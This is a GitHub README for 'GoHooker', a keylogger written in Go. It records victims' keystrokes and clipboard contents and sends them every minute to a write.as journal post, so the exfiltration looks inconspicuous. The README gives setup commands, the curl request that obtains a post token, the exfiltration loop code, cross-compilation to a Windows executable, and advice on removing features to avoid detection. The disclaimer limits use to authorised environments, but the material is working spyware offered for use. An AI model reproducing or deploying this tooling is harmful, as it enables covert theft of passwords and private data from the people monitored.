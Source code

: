 <div align="center">

  <img src="assets/logo.png" alt="logo" width="auto" height="auto" />
  <h1>GoHooker</h1>
</div>
C2-Less keylogger that sends the *clipboard* & *keystrokes* to **write.as**, a "journal" or "diary" website used to post your thoughts or feelings. Upon initial upload, **write.as** provides a unique ID, and token to update your existing post. From there we exfiltrate clipboard data & keystroke data to such post. This allows inconspicuous data exfiltration rather than pushing to a C2 or some pastebin alternative.

## Prerequisite 🚀
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |


## Install 🔨
```bash
git clone https://github.com/CharlesTheGreat77/goHooker
cd goHooker
go mod init main
go mod tidy
```

## Usage ⚙️
Firstly, we must get *ID* and *token* to a given post from **write.as**. This is where the keystrokes and clipboard content will exfiltrate to. 

Obtain ID and token for a post:
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: write.as' -H $'Content-Length: 114' -H $'Sec-Ch-Ua-Platform: \"macOS\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Sec-Ch-Ua: \"Chromium\";v=\"133\", \"Not(A:Brand\";v=\"99\"' -H $'Content-Type: application/json' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Origin: https://write.as' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: https://write.as/new' -H $'Accept-Encoding: gzip, deflate, br' -H $'Priority: u=1, i' -H $'Connection: keep-alive' \
    --data-binary $'{\"body\":\"this is a test\",\"title\":\"\",\"font\":\"norm\",\"web\":true,\"top\":5633,\"lang\":\"en\",\"crosspost\":[],\"public\":false}' \
    $'https://write.as/api/posts'
```
* This returns some *json* output, **copy** the id and token for *your* post.

Second, **paste** the *id* and *token* values inside the **main.go** file.
```go
const ( // this gets cooked within an hour of inactivity
	urlID = ""
	token = ""
)
```

Compile for a given OS
```bash
go build -o helloWorld main.go
```
Cross compile:
```bash
GOOS=windows GOARCH=amd64 go build -o hooker.exe
```

## Exfiltration 📮
goHooker sends data every **minute**, one can change the timer as needed inside the *main.go* file:
```go
// func to push data back to the server & timer for such
func pusher() {
	for {
		time.Sleep(60 * time.Second) // default timer

		mu.Lock()
		if len(keyBuffer) > 0 {
            // sends data to write.as
			_ = updatePimp(keyBuffer)
			keyBuffer = "" // Reset buffer
		}
		mu.Unlock()
	}
}
```

### Tested Environments 🖥️
* MacOS - Sanoma 14.5
* Windows 10

## Special Considerations ⭐
One can delete the functionality to set the executable on startup and admin checks to reduce the chances of detection etc.

## Contributions ❤️
Although this is straight forward, any contributions to additional functionality is welcomed!


## Disclaimer ❌
This program should only be used on environments that you own or have explicit permission to do so. Neither the author, nor other parties involved in the project, will be held liable for any illegal use of this program.